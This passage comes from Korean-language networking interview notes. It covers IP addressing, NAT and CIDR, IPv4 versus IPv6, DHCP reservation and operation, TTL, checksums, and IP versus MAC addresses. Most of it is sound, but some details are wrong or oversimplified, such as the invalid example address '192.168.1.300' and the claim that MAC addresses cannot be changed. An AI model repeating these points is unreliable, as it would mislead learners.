- **UDP**: 2-tuple (로컬 IP, 로컬 포트)

---

## 📌 IP 주소

### NET-059
Q. IP 주소는 무엇이며, 어떤 기능을 하고 있나요?

**IP 주소(Internet Protocol Address)**는 네트워크에서 장치를 식별하는 고유한 주소.

**정의:**
- 인터넷 프로토콜에서 사용하는 주소
- 네트워크 계층(3계층)에서 사용
- 전 세계적으로 고유해야 함

**주요 기능:**

**1. 호스트 식별**
- 네트워크에서 각 장치를 고유하게 식별
- 라우팅의 목적지 지정

**2. 라우팅**
- 패킷이 목적지까지 가는 경로 결정
- 라우터가 목적지 IP로 패킷 전달

**3. 네트워크 분할**
- 네트워크와 호스트 부분으로 구분
- 서브넷 마스크로 구분

**4. 위치 식별**
- 네트워크상의 위치 식별
- 논리적 주소 (물리적 위치와 무관)

```mermaid
graph TD
    A[IP 주소] --> B[호스트 식별<br/>장치 구분]
    A --> C[라우팅<br/>경로 결정]
    A --> D[네트워크 분할<br/>서브넷]
    A --> E[위치 식별<br/>논리적 주소]
    
    style A fill:#99ff99
```

**IPv4 주소:**

**형식:**
- 32비트 (4바이트)
- 점으로 구분된 10진수
- 예: 192.168.1.1

**범위:**
- 0.0.0.0 ~ 255.255.255.255
- 약 43억 개

**IPv6 주소:**

**형식:**
- 128비트 (16바이트)
- 콜론으로 구분된 16진수
- 예: 2001:0db8:85a3:0000:0000:8a2e:0370:7334

**범위:**
- 거의 무한대

**주소 분류:**

**공인 IP (Public IP):**
- 인터넷에서 고유
- 전 세계적으로 유일
- 라우팅 가능

**사설 IP (Private IP):**
- 내부 네트워크에서만 사용
- 인터넷에서 라우팅 안 됨
- NAT를 통해 공인 IP로 변환

**결론:**
- **IP 주소**: 네트워크에서 장치를 식별하는 주소
- **기능**: 호스트 식별, 라우팅, 네트워크 분할
- **형식**: IPv4 (32비트), IPv6 (128비트)
- **분류**: 공인 IP, 사설 IP

### NET-060
Q. IPv6는 IPv4의 주소 고갈 문제를 해결하기 위해 만들어졌지만, 아직도 수많은 기기가 IPv4를 사용하고 있습니다. 고갈 문제를 어떻게 해결할 수 있을까요?

**IPv4 주소 고갈 문제는 NAT, 사설 IP, CIDR 등의 기술로 완화.**

**해결 방법:**

**1. NAT (Network Address Translation)**
- 사설 IP를 공인 IP로 변환
- 여러 장치가 하나의 공인 IP 공유
- 주소 고갈 완화

**2. 사설 IP (Private IP)**
- 내부 네트워크에서만 사용
- 인터넷에서 라우팅 안 됨
- 재사용 가능

**3. CIDR (Classless Inter-Domain Routing)**
- 클래스 없는 주소 할당
- 더 효율적인 주소 사용
- 낭비 감소

**4. DHCP (Dynamic Host Configuration Protocol)**
- 동적 IP 할당
- 사용하지 않는 IP 회수
- 효율적 관리

**5. IPv6 전환**
- 점진적 IPv6 도입
- IPv4와 IPv6 공존
- 장기적 해결

```mermaid
graph TD
    A[IPv4 주소 고갈] --> B[해결 방법]
    
    B --> C[NAT<br/>주소 변환]
    B --> D[사설 IP<br/>내부 네트워크]
    B --> E[CIDR<br/>효율적 할당]
    B --> F[DHCP<br/>동적 할당]
    B --> G[IPv6 전환<br/>장기 해결]
    
    style B fill:#99ff99
```

**NAT (Network Address Translation):**

**동작:**
```
내부 네트워크: 사설 IP 사용
  - 192.168.1.100
  - 192.168.1.101
  - 192.168.1.102

공유기 (NAT): 공인 IP 1개
  - 공인 IP: 203.0.113.1

외부 통신:
  - 사설 IP → 공인 IP로 변환
  - 여러 장치가 하나의 공인 IP 공유
```

**장점:**
- 하나의 공인 IP로 여러 장치 사용
- 주소 고갈 완화
- 보안 향상 (내부 IP 숨김)

**사설 IP 대역:**

**RFC 1918:**
```
10.0.0.0 ~ 10.255.255.255 (10.0.0.0/8)
172.16.0.0 ~ 172.31.255.255 (172.16.0.0/12)
192.168.0.0 ~ 192.168.255.255 (192.168.0.0/16)
```

**CIDR:**

**효율적 할당:**
```
기존 클래스 방식:
  Class A: 16,777,216개 (낭비)
  Class B: 65,536개
  Class C: 256개

CIDR:
  필요한 만큼만 할당
  예: 192.168.1.0/24 (256개)
  예: 192.168.1.0/25 (128개)
```

**DHCP:**

**동적 할당:**
```
IP 주소를 임시로 할당
사용하지 않으면 회수
재사용 가능
```

**실제 사용:**

**가정 네트워크:**
```
공인 IP: 1개 (ISP에서 할당)
사설 IP: 여러 개 (공유기에서 할당)
  - 192.168.1.100
  - 192.168.1.101
  - ...

NAT로 변환하여 인터넷 접속
```

**기업 네트워크:**
```
공인 IP: 소수
사설 IP: 대량
NAT로 변환
```

**IPv6 전환:**

**점진적 도입:**
- IPv4와 IPv6 공존
- Dual Stack
- Tunneling

**결론:**
- **NAT**: 사설 IP를 공인 IP로 변환, 주소 공유
- **사설 IP**: 내부 네트워크에서 재사용
- **CIDR**: 효율적인 주소 할당
- **DHCP**: 동적 할당으로 효율성 향상
- **IPv6**: 장기적 해결책

### NET-061
Q. IPv4와 IPv6의 차이에 대해 설명해 주세요.

**IPv4와 IPv6는 인터넷 프로토콜의 서로 다른 버전으로, 주소 길이와 기능이 다름.**

**주요 차이점:**

| 구분 | IPv4 | IPv6 |
|------|------|------|
| **주소 길이** | 32비트 (4바이트) | 128비트 (16바이트) |
| **주소 개수** | 약 43억 개 | 거의 무한대 |
| **표기법** | 점으로 구분된 10진수 | 콜론으로 구분된 16진수 |
| **예시** | 192.168.1.1 | 2001:0db8::1 |
| **헤더 크기** | 20바이트 (가변) | 40바이트 (고정) |
| **주소 할당** | 수동/DHCP | 자동 (SLAAC) |
| **보안** | 별도 (IPsec) | 내장 (IPsec) |
| **QoS** | 제한적 | 향상됨 |

```mermaid
graph TD
    A[IP 프로토콜] --> B[IPv4<br/>32비트]
    A --> C[IPv6<br/>128비트]
    
    B --> D[약 43억 개<br/>점 표기법<br/>가변 헤더]
    C --> E[거의 무한대<br/>콜론 표기법<br/>고정 헤더]
    
    style B fill:#ffcc99
    style C fill:#99ff99
```

**1. 주소 길이:**

**IPv4:**
- 32비트
- 4바이트
- 예: 192.168.1.1

**IPv6:**
- 128비트
- 16바이트
- 예: 2001:0db8:85a3:0000:0000:8a2e:0370:7334

**2. 주소 표기법:**

**IPv4:**
```
192.168.1.1
각 바이트를 10진수로 표기
```

**IPv6:**
```
2001:0db8:85a3:0000:0000:8a2e:0370:7334
축약: 2001:db8:85a3::8a2e:370:7334
연속된 0은 ::로 축약
```

**3. 헤더 구조:**

**IPv4:**
- 가변 길이 (옵션 포함)
- 최소 20바이트
- 복잡한 구조

**IPv6:**
- 고정 길이 (40바이트)
- 단순한 구조
- 확장 헤더 사용

**4. 주소 할당:**

**IPv4:**
- 수동 설정
- DHCP 사용

**IPv6:**
- 자동 할당 (SLAAC)
- DHCPv6 (선택)

**5. 보안:**

**IPv4:**
- IPsec 별도 구현
- 선택적

**IPv6:**
- IPsec 내장
- 권장

**6. QoS:**

**IPv4:**
- 제한적 지원

**IPv6:**
- Flow Label 필드
- 향상된 QoS

**7. 멀티캐스트:**

**IPv4:**
- 선택적 지원

**IPv6:**
- 필수 지원
- 향상된 멀티캐스트

**8. 호환성:**

**IPv4:**
- 널리 사용
- 레거시 시스템

**IPv6:**
- 점진적 도입
- Dual Stack, Tunneling

**실제 사용:**

**IPv4:**
```
대부분의 네트워크
레거시 시스템
인터넷의 대부분
```

**IPv6:**
```
새로운 네트워크
모바일 네트워크
점진적 확산
```

**전환 방법:**

**Dual Stack:**
- IPv4와 IPv6 동시 지원
- 두 프로토콜 모두 사용

**Tunneling:**
- IPv6를 IPv4로 캡슐화
- IPv4 네트워크를 통과

**Translation:**
- IPv4와 IPv6 변환
- 게이트웨이 사용

**결론:**
- **주소 길이**: IPv4 32비트, IPv6 128비트
- **주소 개수**: IPv4 약 43억, IPv6 거의 무한대
- **표기법**: IPv4 점, IPv6 콜론
- **기능**: IPv6가 보안, QoS 등 향상
- **전환**: 점진적 도입, Dual Stack 사용

### NET-062
Q. 수많은 사람들이 유동 IP를 사용하고 있지만, 수많은 공유기에서는 고정 주소를 제공하는 기능이 이미 존재합니다. 어떻게 가능한 걸까요?

**공유기의 고정 주소 기능은 DHCP 예약(DHCP Reservation) 또는 정적 IP 할당을 통해 구현.**

**방법:**

**1. DHCP 예약 (DHCP Reservation)**
- MAC 주소와 IP 주소를 미리 매핑
- DHCP 서버가 특정 장치에 항상 같은 IP 할당
- 동적 할당이지만 결과적으로 고정

**2. 정적 IP 할당**
- 장치에서 IP를 수동으로 설정
- DHCP 사용 안 함
- 완전히 고정

**3. IP 주소 풀 관리**
- 특정 IP 범위를 예약
- 해당 범위는 DHCP에서 제외
- 수동 할당용

```mermaid
graph TD
    A[고정 주소 제공] --> B[DHCP 예약<br/>MAC-IP 매핑]
    A --> C[정적 IP<br/>수동 설정]
    A --> D[IP 풀 관리<br/>예약 범위]
    
    B --> E[DHCP 서버가<br/>같은 IP 할당]
    C --> F[장치에서<br/>직접 설정]
    D --> G[특정 범위<br/>예약]
    
    style B fill:#99ff99
```

**DHCP 예약 (DHCP Reservation):**

**동작:**
```
1. 공유기 설정에서 MAC 주소와 IP 매핑
   예: MAC AA:BB:CC:DD:EE:FF → 192.168.1.100

2. 장치가 DHCP 요청
   - MAC 주소 포함

3. DHCP 서버가 MAC 주소 확인
   - 예약된 IP가 있으면 해당 IP 할당
   - 없으면 동적 할당

4. 결과: 항상 같은 IP 할당
```

**설정 예시:**
```
공유기 관리 페이지:
  MAC 주소: AA:BB:CC:DD:EE:FF
  IP 주소: 192.168.1.100
  → 예약 설정

장치 연결 시:
  → 항상 192.168.1.100 할당
```

**정적 IP 할당:**

**동작:**
```
1. 장치에서 IP를 수동으로 설정
   - IP: 192.168.1.100
   - 서브넷 마스크: 255.255.255.0
   - 게이트웨이: 192.168.1.1

2. DHCP 사용 안 함
   - 자동 IP 받지 않음

3. 항상 같은 IP 사용
```

**IP 주소 풀 관리:**

**동작:**
```
DHCP 주소 풀: 192.168.1.100 ~ 192.168.1.200
예약 범위: 192.168.1.1 ~ 192.168.1.99

→ 1~99는 DHCP에서 제외
→ 수동 할당용
→ 100~200은 동적 할당
```

**실제 사용:**

**공유기 설정:**
```
DHCP 설정:
  - 주소 풀: 192.168.1.100 ~ 192.168.1.200
  - 예약: 
      MAC AA:BB:CC:DD:EE:FF → 192.168.1.50
      MAC 11:22:33:44:55:66 → 192.168.1.51
```

**장점:**

**1. 편의성**
- 장치를 찾기 쉬움
- 항상 같은 주소

**2. 포트 포워딩**
- 특정 IP로 포트 포워딩 설정
- 고정 IP 필요

**3. 서버 운영**
- 내부 서버에 접속
- 고정 IP로 접속

**주의사항:**

**1. IP 충돌**
- 정적 IP가 DHCP 범위와 겹치면 충돌
- 예약 범위와 겹치지 않게 설정

**2. 관리**
- 예약된 IP 관리 필요
- 사용하지 않는 예약 정리

**결론:**
- **DHCP 예약**: MAC 주소와 IP 매핑, 동적이지만 고정처럼 동작
- **정적 IP**: 수동 설정, 완전히 고정
- **IP 풀 관리**: 예약 범위 지정
- **용도**: 포트 포워딩, 서버 운영, 편의성

### NET-063
Q. IPv4를 사용하는 장비와 IPv6를 사용하는 같은 네트워크 내에서 통신이 가능한가요? 가능하다면 어떤 방법을 사용하나요?

**가능함. Dual Stack, Tunneling, Translation 등의 방법으로 IPv4와 IPv6 장비 간 통신 가능.**

**방법:**

**1. Dual Stack (듀얼 스택)**
- 장비가 IPv4와 IPv6 동시 지원
- 같은 네트워크에서 두 프로토콜 모두 사용
- 직접 통신 가능

**2. Tunneling (터널링)**
- IPv6를 IPv4로 캡슐화
- IPv4 네트워크를 통해 IPv6 전송
- 6to4, Teredo 등

**3. Translation (변환)**
- IPv4와 IPv6 변환
- 게이트웨이가 변환 수행
- NAT64, SIIT 등

```mermaid
graph TD
    A[IPv4 ↔ IPv6 통신] --> B[Dual Stack<br/>동시 지원]
    A --> C[Tunneling<br/>캡슐화]
    A --> D[Translation<br/>변환]
    
    B --> E[같은 장비에서<br/>두 프로토콜 사용]
    C --> F[IPv6를 IPv4로<br/>캡슐화]
    D --> G[게이트웨이가<br/>프로토콜 변환]
    
    style B fill:#99ff99
```

**1. Dual Stack:**

**동작:**
```
장비가 IPv4와 IPv6 동시 지원
  - IPv4 주소: 192.168.1.100
  - IPv6 주소: 2001:db8::100

통신:
  - IPv4 장비: IPv4로 통신
  - IPv6 장비: IPv6로 통신
  - 같은 네트워크에서 공존
```

**장점:**
- 직접 통신 가능
- 변환 오버헤드 없음
- 단순함

**2. Tunneling:**

**6to4:**
```
IPv6 패킷을 IPv4로 캡슐화
IPv4 네트워크를 통해 전송
목적지에서 디캡슐화
```

**Teredo:**
```
NAT 뒤의 IPv6 장비 지원
UDP로 캡슐화
```

**3. Translation:**

**NAT64:**
```
IPv6 장비 → IPv4 장비
게이트웨이가 IPv6를 IPv4로 변환
```

**SIIT:**
```
Stateless IP/ICMP Translation
상태 없이 변환
```

**실제 사용:**

**Dual Stack 네트워크:**
```
라우터: IPv4와 IPv6 동시 지원
장비 1: IPv4만 (192.168.1.100)
장비 2: IPv6만 (2001:db8::200)
장비 3: Dual Stack (192.168.1.300, 2001:db8::300)

통신:
  - 장비 1 ↔ 장비 3: IPv4
  - 장비 2 ↔ 장비 3: IPv6
  - 장비 1 ↔ 장비 2: Translation 필요
```

**Tunneling:**
```
IPv6 장비 → IPv6 패킷 생성
→ IPv4로 캡슐화
→ IPv4 네트워크 전송
→ 목적지에서 디캡슐화
→ IPv6 장비로 전달
```

**Translation:**
```
IPv6 장비 → IPv6 패킷
→ 게이트웨이 (NAT64)
→ IPv4 패킷으로 변환
→ IPv4 장비로 전달
```

**제한사항:**

**1. 직접 통신 불가**
- IPv4만 지원 장비 ↔ IPv6만 지원 장비
- Translation 또는 Tunneling 필요

**2. 성능**
- Translation: 변환 오버헤드
- Tunneling: 캡슐화 오버헤드

**3. 호환성**
- 모든 장비가 지원하지 않을 수 있음
- 설정 필요

**결론:**
- **가능함**: Dual Stack, Tunneling, Translation 사용
- **Dual Stack**: 동시 지원, 직접 통신
- **Tunneling**: 캡슐화로 전송
- **Translation**: 프로토콜 변환
- **선택**: 네트워크 환경에 따라 결정

### NET-064
Q. IP가 송신자와 수신자를 정확하게 전송되는 것을 보장해 주나요?

**아니다. IP는 Best-Effort 서비스로, 전송 보장하지 않음. 신뢰성은 상위 계층(TCP)에서 보장.**

**IP의 특성:**

**1. Best-Effort (최선 노력)**
- 전송을 시도하지만 보장하지 않음
- 패킷 손실 가능
- 순서 보장 없음
- 중복 가능

**2. 비연결형 (Connectionless)**
- 연결 설정 없음
- 각 패킷이 독립적
- 경로가 다를 수 있음

**3. 비신뢰성 (Unreliable)**
- 전송 보장 없음
- 오류 복구 없음
- 재전송 없음

```mermaid
graph TD
    A[IP 패킷 전송] --> B[Best-Effort<br/>최선 노력]
    B --> C[전송 보장 없음<br/>손실 가능]
    B --> D[순서 보장 없음<br/>순서 바뀔 수 있음]
    B --> E[중복 가능<br/>같은 패킷 여러 번]
    
    style C fill:#ff9999
```

**IP가 보장하지 않는 것:**

**1. 패킷 전달**
- 패킷이 목적지에 도착한다는 보장 없음
- 손실 가능

**2. 순서**
- 패킷이 전송 순서대로 도착한다는 보장 없음
- 순서가 바뀔 수 있음

**3. 중복 방지**
- 같은 패킷이 여러 번 도착할 수 있음
- 중복 가능

**4. 오류 복구**
- 패킷 손실 시 재전송 없음
- 오류 복구 없음

**신뢰성 보장:**

**TCP (전송 계층):**
- 신뢰성 보장
- 재전송
- 순서 보장
- 중복 제거

**UDP (전송 계층):**
- 신뢰성 없음
- IP와 유사

**실제 동작:**

**IP 레벨:**
```
송신: 패킷 전송
→ 라우터를 통해 전달
→ 목적지 도착 시도
→ 보장 없음
```

**TCP 레벨:**
```
IP 위에서 동작
→ 재전송으로 손실 복구
→ 순서 번호로 순서 보장
→ ACK로 확인
→ 신뢰성 보장
```

**패킷 손실 예시:**
```
1. IP 패킷 전송
2. 네트워크 혼잡으로 손실
3. IP: 재전송 없음
4. TCP: ACK 없음 → 재전송
```

**순서 바뀜 예시:**
```
1. 패킷 A 전송
2. 패킷 B 전송
3. 패킷 B가 먼저 도착
4. IP: 순서 보장 없음
5. TCP: 순서 번호로 재정렬
```

**결론:**
- **IP는 보장하지 않음**: Best-Effort 서비스
- **보장하지 않는 것**: 전달, 순서, 중복 방지, 오류 복구
- **신뢰성**: 상위 계층(TCP)에서 보장
- **특성**: 비연결형, 비신뢰성

### NET-065
Q. IPv4에서 수행하는 Checksum과 TCP에서 수행하는 Checksum은 어떤 차이가 있나요?

**IPv4 Checksum과 TCP Checksum은 검증 범위와 목적이 다름.**

**IPv4 Checksum:**

**검증 범위:**
- IPv4 헤더만 검증
- 데이터는 검증 안 함
- 헤더 무결성 확인

**목적:**
- 라우터에서 헤더 오류 감지
- 잘못된 라우팅 방지
- 헤더 손상 감지

**특징:**
- 라우터마다 재계산
- TTL 변경으로 값 변경
- 헤더만 보호

**TCP Checksum:**

**검증 범위:**
- TCP 헤더 + 데이터
- Pseudo Header 포함
- 전체 세그먼트 검증

**목적:**
- 데이터 무결성 확인
- 전송 오류 감지
- 데이터 손상 방지

**특징:**
- 종단 간 검증
- 데이터까지 보호
- 더 포괄적

```mermaid
graph TD
    A[Checksum] --> B[IPv4 Checksum<br/>헤더만]
    A --> C[TCP Checksum<br/>헤더+데이터]
    
    B --> D[라우터에서<br/>헤더 검증]
    C --> E[종단 간<br/>전체 검증]
    
    style B fill:#ffcc99
    style C fill:#99ff99
```

**비교표:**

| 구분 | IPv4 Checksum | TCP Checksum |
|------|---------------|--------------|
| **검증 범위** | IPv4 헤더만 | TCP 헤더 + 데이터 + Pseudo Header |
| **목적** | 헤더 무결성 | 데이터 무결성 |
| **재계산** | 라우터마다 | 종단 간만 |
| **보호** | 헤더만 | 헤더 + 데이터 |

**IPv4 Checksum:**

**계산:**
```
IPv4 헤더의 모든 16비트 단어 합산
→ 1의 보수
→ Checksum 필드에 저장
```

**재계산:**
```
라우터마다 TTL 감소
→ Checksum 재계산
→ 새로운 Checksum 저장
```

**TCP Checksum:**

**계산:**
```
Pseudo Header + TCP 헤더 + 데이터
→ 모든 16비트 단어 합산
→ 1의 보수
→ Checksum 필드에 저장
```

**Pseudo Header:**
```
Source IP (4바이트)
Destination IP (4바이트)
Protocol (1바이트)
TCP Length (2바이트)
```

**실제 동작:**

**IPv4:**
```
패킷 수신
→ IPv4 헤더 Checksum 확인
→ 오류 있으면 폐기
→ 정상이면 라우팅
```

**TCP:**
```
세그먼트 수신
→ TCP Checksum 확인
→ 오류 있으면 폐기 (재전송 요청)
→ 정상이면 데이터 처리
```

**IPv6의 변화:**

**IPv6:**
- 헤더 Checksum 제거
- 상위 계층에서 검증
- 성능 향상

**이유:**
- 링크 계층에서 이미 검증
- 중복 검증 불필요
- 성능 최적화

**결론:**
- **IPv4 Checksum**: 헤더만 검증, 라우터에서 재계산
- **TCP Checksum**: 헤더+데이터 검증, 종단 간 검증
- **차이**: 검증 범위와 목적
- **IPv6**: 헤더 Checksum 제거

### NET-066
Q. TTL(Hop Limit)이란 무엇인가요?

**TTL (Time To Live, IPv4) / Hop Limit (IPv6)**는 패킷이 네트워크에서 존재할 수 있는 최대 홉(라우터) 수.

**정의:**
- 패킷이 무한히 순환하는 것을 방지
- 라우터를 지날 때마다 감소
- 0이 되면 패킷 폐기

**동작:**

**1. 초기값 설정**
- 송신자가 TTL 설정 (보통 64, 128, 255)
- IPv6: Hop Limit (보통 64)

**2. 라우터 통과**
- 라우터를 지날 때마다 1 감소
- TTL/Hop Limit 감소

**3. 0이 되면**
- 패킷 폐기
- ICMP Time Exceeded 메시지 전송
- 무한 순환 방지

```mermaid
graph TD
    A[패킷 전송<br/>TTL=64] --> B[라우터 1<br/>TTL=63]
    B --> C[라우터 2<br/>TTL=62]
    C --> D[라우터 3<br/>TTL=61]
    D --> E{TTL > 0?}
    E -->|예| F[계속 전송]
    E -->|아니오| G[패킷 폐기<br/>ICMP Time Exceeded]
    
    style G fill:#ff9999
```

**목적:**

**1. 무한 순환 방지**
- 라우팅 루프 발생 시 무한 순환 방지
- TTL이 0이 되면 폐기

**2. 네트워크 보호**
- 잘못된 패킷이 네트워크를 계속 순환하는 것 방지
- 리소스 보호

**3. 경로 추적**
- traceroute에서 사용
- TTL을 점진적으로 증가시켜 경로 추적

**실제 사용:**

**일반적인 TTL 값:**
```
Windows: 128
Linux: 64
Unix: 255
```

**traceroute:**
```
1. TTL=1로 패킷 전송
   → 첫 번째 라우터에서 폐기
   → ICMP Time Exceeded 수신

2. TTL=2로 패킷 전송
   → 두 번째 라우터에서 폐기
   → ICMP Time Exceeded 수신

3. 반복하여 경로 추적
```

**IPv4 vs IPv6:**

**IPv4:**
- TTL (Time To Live)
- 8비트 (0~255)

**IPv6:**
- Hop Limit
- 8비트 (0~255)
- 의미는 동일

**ICMP Time Exceeded:**

**메시지:**
```
TTL이 0이 되면
→ 라우터가 패킷 폐기
→ ICMP Time Exceeded 메시지 전송
→ 송신자에게 알림
```

**결론:**
- **TTL/Hop Limit**: 패킷이 존재할 수 있는 최대 홉 수
- **목적**: 무한 순환 방지, 네트워크 보호
- **동작**: 라우터마다 1 감소, 0이 되면 폐기
- **용도**: 경로 추적 (traceroute)

### NET-067
Q. IP 주소와 MAC 주소의 차이에 대해 설명해 주세요.

**IP 주소와 MAC 주소는 서로 다른 계층에서 사용하는 주소로, 목적과 범위가 다름.**

**주요 차이점:**

| 구분 | IP 주소 | MAC 주소 |
|------|---------|----------|
| **계층** | 네트워크 계층 (3계층) | 데이터 링크 계층 (2계층) |
| **범위** | 논리적, 변경 가능 | 물리적, 고정 |
| **길이** | IPv4: 32비트, IPv6: 128비트 | 48비트 (6바이트) |
| **할당** | 네트워크 관리자/DHCP | 제조사 (하드웨어) |
| **변경** | 가능 | 불가능 (하드웨어) |
| **범위** | 전역 (인터넷) | 로컬 (같은 네트워크) |
| **용도** | 라우팅 | 스위칭 |

```mermaid
graph TD
    A[네트워크 주소] --> B[IP 주소<br/>논리적 주소]
    A --> C[MAC 주소<br/>물리적 주소]
    
    B --> D[네트워크 계층<br/>라우팅<br/>변경 가능]
    C --> E[데이터 링크 계층<br/>스위칭<br/>고정]
    
    style B fill:#99ff99
    style C fill:#ffcc99
```

**IP 주소:**

**특징:**
- 논리적 주소
- 네트워크 계층에서 사용
- 라우팅에 사용
- 변경 가능

**용도:**
- 장치의 네트워크상 위치 식별
- 라우터가 목적지 결정
- 인터넷 전역에서 사용

**예시:**
```
IPv4: 192.168.1.100
IPv6: 2001:db8::100
```

**MAC 주소:**

**특징:**
- 물리적 주소
- 데이터 링크 계층에서 사용
- 스위칭에 사용
- 하드웨어에 고정

**용도:**
- 같은 네트워크 내에서 장치 식별
- 스위치가 프레임 전달
- 로컬 네트워크에서만 사용

**예시:**
```
AA:BB:CC:DD:EE:FF
또는
aa-bb-cc-dd-ee-ff
```

**비유:**
- **IP 주소**: 우편 주소 (변경 가능, 논리적)
- **MAC 주소**: 주민등록번호 (고정, 물리적)

**실제 사용:**

**라우팅 (IP 주소):**
```
패킷 전송:
  목적지 IP: 203.0.113.1
  → 라우터가 IP 주소로 경로 결정
  → 여러 네트워크를 거쳐 전달
```

**스위칭 (MAC 주소):**
```
프레임 전송:
  목적지 MAC: AA:BB:CC:DD:EE:FF
  → 스위치가 MAC 주소로 전달
  → 같은 네트워크 내에서만
```

**ARP (Address Resolution Protocol):**

**역할:**
- IP 주소를 MAC 주소로 변환
- 같은 네트워크에서 필요

**동작:**
```
IP 주소 알지만 MAC 주소 모름
→ ARP 요청 브로드캐스트
→ 해당 IP의 장치가 MAC 주소 응답
→ MAC 주소로 프레임 전송
```

**변경 가능성:**

**IP 주소:**
- 네트워크 변경 시 변경
- DHCP로 동적 할당
- 수동 설정 가능

**MAC 주소:**
- 하드웨어에 고정
- 변경 어려움 (일부 가능)
- 제조사가 할당

**결론:**
- **IP 주소**: 논리적, 네트워크 계층, 라우팅, 변경 가능
- **MAC 주소**: 물리적, 데이터 링크 계층, 스위칭, 고정
- **관계**: ARP로 IP를 MAC으로 변환
- **용도**: IP는 전역 라우팅, MAC은 로컬 스위칭

---

## 📌 DHCP

### NET-068
Q. DHCP가 무엇인지 설명해 주세요.

**DHCP (Dynamic Host Configuration Protocol)**는 네트워크 장치에 IP 주소 등 네트워크 설정을 자동으로 할당하는 프로토콜.

**정의:**
- 동적 호스트 구성 프로토콜
- IP 주소, 서브넷 마스크, 게이트웨이, DNS 서버 등을 자동 할당
- 수동 설정 불필요

**주요 기능:**

**1. IP 주소 할당**
- 동적 할당 (임시)
- 고정 할당 (예약)
- IP 주소 풀 관리

**2. 네트워크 설정 제공**
- 서브넷 마스크
- 기본 게이트웨이
- DNS 서버 주소

**3. 리소스 관리**
- 사용하지 않는 IP 회수
- 효율적인 IP 사용
- 중복 방지

```mermaid
graph TD
    A[DHCP] --> B[IP 주소 할당<br/>동적/고정]
    A --> C[네트워크 설정<br/>서브넷, 게이트웨이, DNS]
    A --> D[리소스 관리<br/>IP 회수, 중복 방지]
    
    style A fill:#99ff99
```

**장점:**
- 자동 설정으로 편의성 향상
- IP 주소 효율적 관리
- 중복 방지
- 네트워크 변경 시 자동 업데이트

**결론:**
- **DHCP**: 네트워크 설정 자동 할당 프로토콜
- **기능**: IP 주소, 서브넷, 게이트웨이, DNS 할당
- **장점**: 편의성, 효율성, 자동화

### NET-069
Q. DHCP는 몇 계층 프로토콜인가요?

**DHCP는 애플리케이션 계층(7계층) 프로토콜이지만, UDP를 사용하여 전송 계층(4계층)을 통해 전송됨.**

**계층 구조:**
```
애플리케이션 계층: DHCP
전송 계층: UDP (포트 67, 68)
네트워크 계층: IP
데이터 링크 계층: Ethernet
```

**특징:**
- 애플리케이션 계층 프로토콜
- UDP 사용 (포트 67: 서버, 68: 클라이언트)
- IP 주소가 없어도 동작 (0.0.0.0 사용)

**결론:**
- **계층**: 애플리케이션 계층 (7계층)
- **전송**: UDP 사용
- **포트**: 67 (서버), 68 (클라이언트)

### NET-070
Q. DHCP는 어떻게 동작하나요?

**DHCP는 4단계 과정(DHCP Discover, Offer, Request, ACK)으로 IP 주소를 할당.**

**과정:**

**1. DHCP Discover**
- 클라이언트가 브로드캐스트로 DHCP 서버 탐색
- IP 주소 없이 전송 (0.0.0.0)

**2. DHCP Offer**
- DHCP 서버가 IP 주소 제안
- 브로드캐스트로 응답

**3. DHCP Request**
- 클라이언트가 제안받은 IP 주소 요청
- 다른 서버에게도 알림

**4. DHCP ACK**
- 서버가 IP 주소 할당 확인
- 네트워크 설정 정보 포함

```mermaid
sequenceDiagram
    participant C as 클라이언트
    participant S as DHCP 서버
    
    C->>S: DHCP Discover (브로드캐스트)
    S->>C: DHCP Offer (IP 주소 제안)
    C->>S: DHCP Request (IP 주소 요청)
    S->>C: DHCP ACK (할당 확인 + 설정 정보)
```

**상세 과정:**

**1. DHCP Discover:**
```
클라이언트: IP 주소 없음 (0.0.0.0)
→ 브로드캐스트: 255.255.255.255
→ "DHCP 서버 있나요?"
```

**2. DHCP Offer:**
```
서버: 사용 가능한 IP 주소 제안
→ 브로드캐스트로 응답
→ IP 주소, 서브넷, 게이트웨이 등 포함
```

**3. DHCP Request:**
```
클라이언트: 제안받은 IP 주소 요청
→ 다른 서버에게도 알림 (다른 제안 거부)
```

**4. DHCP ACK:**
```
서버: IP 주소 할당 확인
→ 네트워크 설정 정보 전송
→ 클라이언트가 IP 주소 사용 시작
```

**결론:**
- **과정**: Discover → Offer → Request → ACK
- **방식**: 브로드캐스트 사용
- **결과**: IP 주소 및 네트워크 설정 할당

### NET-071
Q. DHCP에서 UDP를 사용하는 이유가 무엇인가요?

**DHCP가 UDP를 사용하는 이유는 연결 설정이 필요 없고, 브로드캐스트가 필요하며, 빠른 응답이 중요하기 때문.**

**이유:**

**1. 연결 설정 불필요**
- IP 주소가 없는 상태에서 시작
- TCP 연결 설정 불가능
- UDP는 연결 없이 전송 가능

**2. 브로드캐스트 필요**
- DHCP Discover는 브로드캐스트
- TCP는 브로드캐스트 제한적
- UDP는 브로드캐스트 지원

**3. 빠른 응답**
- 네트워크 설정이 빠르게 필요
- UDP는 오버헤드 적음
- 빠른 전송

**4. 단순한 요청-응답**
- 복잡한 신뢰성 불필요
- 요청-응답 패턴
- UDP로 충분

**결론:**
- **UDP 사용 이유**: 연결 불필요, 브로드캐스트 지원, 빠른 응답, 단순한 구조
- **포트**: 67 (서버), 68 (클라이언트)

### NET-072
Q. DHCP에서, IP 주소 말고 추가로 제공해주는 정보가 있나요?

**DHCP는 IP 주소 외에 서브넷 마스크, 게이트웨이, DNS 서버, 리스 시간 등 다양한 네트워크 설정 정보를 제공.**

**제공 정보:**

**1. 서브넷 마스크 (Subnet Mask)**
- 네트워크와 호스트 구분
- 예: 255.255.255.0

**2. 기본 게이트웨이 (Default Gateway)**
- 다른 네트워크로의 출구
- 라우터 주소

**3. DNS 서버 주소**
- 도메인 이름 해석
- 주 DNS, 보조 DNS

**4. 리스 시간 (Lease Time)**
- IP 주소 사용 기간
- 갱신 필요 시점

**5. 도메인 이름**
- 호스트 도메인
- 예: example.com

**6. 기타 옵션**
- NTP 서버
- WINS 서버
- 부팅 파일 등

**결론:**
- **추가 정보**: 서브넷 마스크, 게이트웨이, DNS 서버, 리스 시간 등
- **목적**: 완전한 네트워크 설정 자동화

### NET-073
Q. DHCP의 유효기간은 얼마나 긴가요?

**DHCP 리스(Lease) 시간은 설정에 따라 다르며, 보통 몇 시간에서 며칠까지 가능. 기본값은 보통 24시간 또는 8일.**

**일반적인 리스 시간:**

**가정 네트워크:**
- 보통 24시간
- 또는 8일 (기본값)

**기업 네트워크:**
- 몇 시간 ~ 며칠
- 네트워크 정책에 따라 다름

**리스 갱신:**

**1. T1 (50% 경과)**
